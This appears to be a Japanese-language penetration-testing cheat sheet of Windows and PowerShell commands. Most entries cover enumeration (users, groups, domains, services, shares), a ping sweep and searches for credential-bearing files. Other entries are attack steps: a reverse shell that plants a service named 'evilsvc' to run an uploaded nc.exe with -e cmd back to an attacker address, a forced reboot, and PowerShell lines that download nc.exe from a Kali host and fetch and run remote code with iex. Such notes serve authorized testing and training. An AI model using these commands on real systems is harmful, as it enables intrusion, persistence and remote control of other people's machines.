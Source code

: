 # windows command

* net XXX

``` bat
    # ユーザ情報
    net user
    または
    wmic USERACCOUNT Get Domain,Name,Sid
    # ログオンとかパスワード条件とか
    net accounts
    # ローカルグループ情報
    net localgroup
```

* tasklist

``` bat
    tasklist /SVC
    
    tasklist /m
```

* schtasks

```bat
    # /S: 接続先リモートシステム
    # /U: ユーザ名
    # /P: パスワード
    # /TN: タスク名
    # /SC: スケジュール(1回) 
    # /SD: 開始日
    # /ST: 開始時刻
    # /TR: 実行タスク
    schtasks /Create /S 192.168.xxx.xxx /U <user> /P <password> /TN sample /SC ONCE /SD 1900/01/01 /ST 00:00 /TR C:¥Remote¥test.bat

    # タスクの一覧表示(詳細)
    schtasks /query /fo list /v
```

* システム情報

```bat
    systeminfo
    または
    wmic computersystem LIST full
```

* マウント情報(共有ドライブとか)

``` bat
    mountvol
```

* ドメイン情報

``` bat
    #　ドメコン名とかの取得
    nltest /dsgetdc:<domain>
```

* ping sweep

``` bat
    for /l %i in (1,1,255) do @ping -n 1 -w 100 XXX.XXX.XXX.%i | find "TTL="
```

* ファイル検索

``` bat
    dir /s *<file_name>*  
　  # 検索でよく使うファイルパターン
    *.txt/*.doc/*.xls/*.one/*.cnf/unattend.xml
```

* kaliにあるwindowsで実行可能なファイル
  
    `/usr/share/windows-binaries`

* windows reverse shell
  * windowsサービス

``` bat
    #wordpressから[nc.exe]をfile uploadする必要がある。
    reg add HKLM\SYSTEM\CurrentControlSet\Services\evilsvc /t REG_EXPAND_SZ /v ImagePath /d "cmd /c \"C:\inetpub\wwwroot\wordpress\wp-content\themes\twentytwenty\nc.exe XXX.XX.XX.XX PPPP -e cmd\"" /f

    #再起動できる場合は再起動
    shutdown /r /t 0 /f
```

* sc

``` batch
    # サービス登録コマンド
    # notepad.exeをシステム起動時に自動起動するサービスを登録するコマンド 
    sc create notepad binpath= "C:¥Windows¥system32¥notepad.exe" start=auto
    # サービス情報の表示
    sc qc <service_name>
    # サービス起動
    sc start <service_name>
    # サービス停止
    sc stop <service_name>
```

* wmic

``` bat
    #システム情報
    wmic computersystem LIST full
    #サービス検索
    wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\"
    #ファイル検索
    wmic DATAFILE where "drive='C:' AND Name like '%<file_name>%'" GET Name,Readable,size /VALUE
```

* whoami

``` bat
    whoami
    #権限表示
    whoami /priv
    #グループ表示
    whoami /group
```

## PowerShell

* バージョン確認

``` powershell
    $PsVersionTable
```

* ファイルダウンロード

``` powershell
    powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://<Remote KaliのIP>:8000/nc.exe" -OutFile "nc.exe")
    
    iwr -Uri http://XXX.XXX.XXX.XXX/<file_name> -OutFile "<file_path>\<file_name>>"
    
    iex(new-object net.webclient).downloadstring('http://XXX.XXX.XXX.XXX/<file_name>')
```

* 共有ドライブ

``` powershell
    powershell -Command "Get-WmiObject -class Win32_Share"
```
